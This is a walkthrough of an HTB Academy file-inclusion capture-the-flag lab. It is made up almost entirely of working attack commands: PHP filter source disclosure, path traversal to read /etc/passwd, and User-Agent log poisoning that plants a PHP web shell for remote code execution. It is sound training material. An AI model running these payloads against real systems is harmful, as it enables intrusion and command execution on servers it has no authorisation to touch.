 # Skills Assessment Walkthrough - HTB Academy Guide

## HTB Academy Skills Assessment - File Inclusion

> Complete walkthrough of the capstone challenge that combines multiple LFI techniques for RCE and flag extraction.

**Challenge:** "Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system."

---

## Multi-Technique Exploitation Chain

### Phase 1: Source Code Disclosure
```bash
# Step 1: Discover vulnerable parameter
http://TARGET_IP:PORT/index.php?page=about

# Step 2: PHP filter source disclosure
http://TARGET_IP:PORT/index.php?page=php://filter/convert.base64-encode/resource=index

# Step 3: Decode and analyze source
echo 'BASE64_OUTPUT' | base64 -d | grep -i admin
# Reveals: // echo '<li><a href="ilf_admin/index.php">Admin</a></li>';
```

### Phase 2: Admin Panel Discovery
```bash
# Step 4: Read admin panel source
http://TARGET_IP:PORT/index.php?page=php://filter/convert.base64-encode/resource=ilf_admin/index

# Step 5: Identify LFI in admin panel
# Vulnerable code found:
# $log = "logs/" . $_GET['log'];
# include $log;
```

### Phase 3: LFI Exploitation
```bash
# Step 6: Test admin panel LFI
http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../etc/passwd

# Step 7: Identify web server (Nginx)
http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log
```

### Phase 4: Log Poisoning & RCE
```bash
# Step 8: Poison User-Agent header
curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" \
     "http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log"

# Step 9: Execute commands
http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log&cmd=ls /

# Step 10: Find and read flag
http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log&cmd=cat /flag_*
```

---

## Techniques Demonstrated

1. **PHP Filter Source Disclosure** - Reading application source code
2. **Hidden Functionality Discovery** - Finding commented admin panels
3. **Path Traversal & LFI** - Basic file inclusion exploitation
4. **Web Server Identification** - Testing different log locations
5. **Log Poisoning** - User-Agent header injection
6. **Remote Code Execution** - Command execution via poisoned logs

---

## Complete Attack Commands

```bash
# 1. Source disclosure
curl "http://TARGET_IP:PORT/index.php?page=php://filter/convert.base64-encode/resource=index"

# 2. Admin panel discovery
echo 'BASE64_OUTPUT' | base64 -d | grep -i admin

# 3. Admin source disclosure
curl "http://TARGET_IP:PORT/index.php?page=php://filter/convert.base64-encode/resource=ilf_admin/index"

# 4. LFI testing
curl "http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../etc/passwd"

# 5. Log poisoning
curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" \
     "http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log"

# 6. RCE and flag extraction
curl "http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log&cmd=cat /flag_*"
```

---

## Expected Flag Format

**Flag:** `HTB{...}` or similar format  
**Location:** `/flag_[random].txt` in root directory

---

## Alternative Approaches

If primary method fails, try:

1. **SSH Log Poisoning** - If SSH is available
2. **PHP Session Poisoning** - If sessions are accessible  
3. **Data Wrapper RCE** - If `allow_url_include=On`
4. **Different Log Locations** - Apache logs, mail logs, etc.

---

*This walkthrough demonstrates the complete HTB Academy Skills Assessment solution, showcasing advanced file inclusion exploitation techniques.* 